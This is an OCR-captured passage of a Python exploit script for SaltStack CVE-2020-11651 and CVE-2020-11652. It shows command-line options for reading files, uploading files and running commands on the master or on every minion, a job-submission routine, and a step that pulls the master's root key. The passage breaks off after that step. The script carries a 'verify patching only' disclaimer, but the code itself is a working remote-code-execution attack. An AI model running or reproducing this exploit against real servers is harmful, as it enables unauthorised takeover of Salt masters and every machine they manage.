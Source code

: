         try:
            rets = channel.send(msg, timeout=3)
        except Exception as e:
            print('[-] Failed to submit job')
            return
        finally:
            if rets == None:
                print('[+] Successfully submitted job to all minions.')
            else:
                print('[-] Failed to submit job')


    def main():
        parser = argparse.ArgumentParser(description='Saltstack exploit for CVE-2020-11651 and CVE-2020-11652')
        parser.add_argument('--master', '-m', dest='master_ip', default='127.0.0.1')
        parser.add_argument('--port', '-p', dest='master_port', default='4506')
        parser.add_argument('--force', '-f', dest='force', default=False, action='store_false')
        parser.add_argument('--debug', '-d', dest='debug', default=False, action='store_true')
        parser.add_argument('--run-checks', '-c', dest='run_checks', default=False, action='store_true')
        parser.add_argument('--read', '-r', dest='read_file')
        parser.add_argument('--upload-src', dest='upload_src')
        parser.add_argument('--upload-dest', dest='upload_dest')
        parser.add_argument('--exec', dest='exec', help='Run a command on the master')
        parser.add_argument('--exec-all', dest='exec_all', help='Run a command on all minions')
        args = parser.parse_args()

        print("[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.")
        time.sleep(1)

        # Both src and destination are required for uploads
        if (args.upload_src and args.upload_dest is None) or (args.upload_dest and args.upload_src is None):
            print('[-] Must provide both --upload-src and --upload-dest')
            sys.exit(1)

        channel = init_minion(args.master_ip, args.master_port)

        if check_salt_version():
           print("[ ] This version of salt is vulnerable! Check results below")
        elif args.force:
           print("[*] This version of salt does NOT appear vulnerable. Proceeding anyway as requested.")
        else:
           sys.exit()

        check_connection(args.master_ip, args.master_port, channel)
        
        root_key = check_CVE_2020_11651(channel)
        if root_key:
            print('\n[*] root key obtained: {}'.format(root_key))
        else:
            print('[-] Failed to find root key...aborting')
            sys.exit(127)
